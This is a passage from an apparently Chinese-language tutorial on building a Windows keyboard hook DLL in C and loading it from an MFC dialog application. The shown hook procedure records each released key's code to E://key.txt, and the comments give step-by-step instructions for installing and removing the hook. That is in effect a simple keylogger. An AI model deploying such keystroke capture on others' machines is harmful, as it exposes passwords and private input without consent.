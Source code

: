 		*/
		WPARAM j;
		FILE *fp;
		if (lParam & 0x80000000)
		{
			j = wParam;
			fp = fopen("E://key.txt", "a");
			fprintf(fp, "%4d", j);
			fclose(fp);
		}
		//调用下一个钩子函数
		return CallNextHookEx(oldkeyhook,   nCode, 
							//当前钩子的句柄 传送到钩子进程的钩子代码
							wParam,				lParam);
						//传送到钩子进程的值。   传送到钩子进程的值
		//CallNexHookEx()函数用于对当前钩子链中的下一个钩子进程传递钩子信息，
		//一个钩子进程既可以在钩子信息处理前，也可以在钩子信息处理后调用该函数。
		//返回值是链中下一个钩子进程返回的值，当前钩子进程必须返回这个值，
		//返回值的具体含义与挂接的钩子类型有关，详细信息请参看具体的钩子进程描述。 
	}
	
	
	//卸载钩子
	void EndHook(void)
	{
		UnhookWindowsHookEx(oldkeyhook);
	}
	


若生成失败，可新建一个.def文件，再编译，注意，编译出来的是dll文件！而且会生成.lib文件的！



----------

## 2. 在一个工程中去调用dll并且设置钩子和卸载钩子 ##

这里用了一个MFC的工程

首先配置MFC工程，让它引用dll项目，并且设置包含目录。

**MFCHOOKDlg.cpp**


	//2015.4.23
	//用了一个监测键盘输入的钩子函数，监测键盘的输入，并将其保存在E://key.txt中
	//缺点1:加入键盘按住一个键不懂，尽管它在一直输入某个键，但是只能读取一个
	//缺点2:输入的是键盘每个键的ASCII码表值
	
	//当钩子已经生成了一个dll时
	//实用这个dll相当简单
	//第一步：导入dll并包含其函数声明的头文件
	//第二步：在窗口初始化处安装钩子
	//第三步：在窗口关闭处卸载钩子
			//也可以在OnSysCommand()处卸载钩子，但是这样会导致最小化后钩子就自己卸载了
			//OnSysCommand()是指接受到系统命令后的操作
	